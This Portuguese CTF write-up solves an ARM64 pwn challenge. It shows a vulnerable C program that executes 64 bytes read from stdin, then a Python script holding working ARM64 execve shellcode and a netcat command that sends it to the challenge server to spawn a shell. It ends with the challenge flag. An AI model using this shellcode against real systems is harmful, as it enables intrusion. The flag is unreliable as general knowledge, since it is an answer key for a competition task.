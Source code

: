 # **CTF**

## _Pwn2_

## Informações

| **Category:** | **Points:** |
| ------------- | ----------- |
| Pwn           | 500         |

**Descrição:**

> Check out this amazing infraestructure only to run a single ARM64 binary: nc 34.95.239.56 9994

## Solução

Usando o comendo file vemos que o binário em questão usa arquitetura ARM64

```
$ file Posts/Pwn/pwn2/bin/pwn
Posts/Pwn/pwn2/bin/pwn: ELF 64-bit LSB executable, ARM aarch64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=2505cae9c912dfe5d5b391897aa5c64e52ab7b2a, for GNU/Linux 3.7.0, not stripped
```

Olhando o código vemos que há um buffer de 64 caracteres cujos bytes são executados logo em seguida.

```
#include <stdio.h>
#include <unistd.h>
//Run with  cat payload - | qemu-aarch64 -g 1234 ./bin/pwn
//Debug with gdb-multiarch --ex="set arch aarch64" --ex="target remote localhost:1234" --ex="break main" ./pwn
//Remove the option -g 1234 for disable debugging
int main(){
  char buf[64];
  printf("Executing your shellcode\n");
  fgets(buf,64,stdin);
  int (*ret)() = (int(*)())buf;
  ret();

}
```

Com algumas pesquisas no Google encontrei o spawn de um shell em ARM64 que pode ser visto no link:
https://www.exploit-db.com/exploits/47048

Usando Python escrevi um script que grava o payload em um arquivo para o input no binário.

```
payload = b"\xe1\x45\x8c\xd2\x21\xcd\xad\xf2\xe1\x65\xce\xf2\x01\x0d\xe0\xf2\xe1\x8f\x1f\xf8\xe1\x03\x1f\xaa\xe2\x03\x1f\xaa\xe0\x63\x21\x8b\xa8\x1b\x80\xd2\xe1\x66\x02\xd4"


f = open("payload", "wb")
f.write(payload)
f.close()

```

Com isso usando `cat payload - | nc 34.95.239.56 9994` conseguimos spawnar um shell e capturar a flag.

![](https://i.imgur.com/Kaq9U5B.png)

### Flag

> CTF-BR{the_whole_virtualization_stack}
